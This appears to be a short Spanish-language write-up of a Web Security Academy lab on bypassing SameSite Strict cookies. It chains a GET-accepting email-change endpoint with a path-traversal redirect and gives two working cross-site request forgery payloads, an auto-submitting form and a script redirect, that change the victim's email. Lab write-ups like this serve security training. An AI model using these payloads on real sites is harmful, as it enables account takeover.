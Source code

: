 
## Objetivo:

![[Pasted image 20240519225208.png]]

## Solucion:


Al parecer el cambio de correo tambien se podia hacer por GET, pero no podia las podia pasar por GET ni POST ya que estan en ***Strict Mode***, para solucionar eso lo que hice fue aprovechar un redireccionamiento que tenia la pagina, y asi pude combinar el fallo del cambio de correo por GET con el redireccionamiento de una ruta para que **El Sitio Web** se envie la solicitud a si misma...

![[Pasted image 20240519225345.png]]

```
<body>

<form action="https://0a2b006c03f5a41d80be3a40002000da.web-security-academy.net/post/comment/confirmation/" method="get">

<input type="hidden" name="postId" value="../my-account/change-email?email=pwned%40easy.com&submit=1" />

</form>

  

<script>

document.forms[0].submit()

</script>

</body>

  

<!-- Otra solucion -->

<body>

<script>

document.location.href = 'https://0a2b006c03f5a41d80be3a40002000da.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40gmail.com&submit=1'

</script>

</body>
```

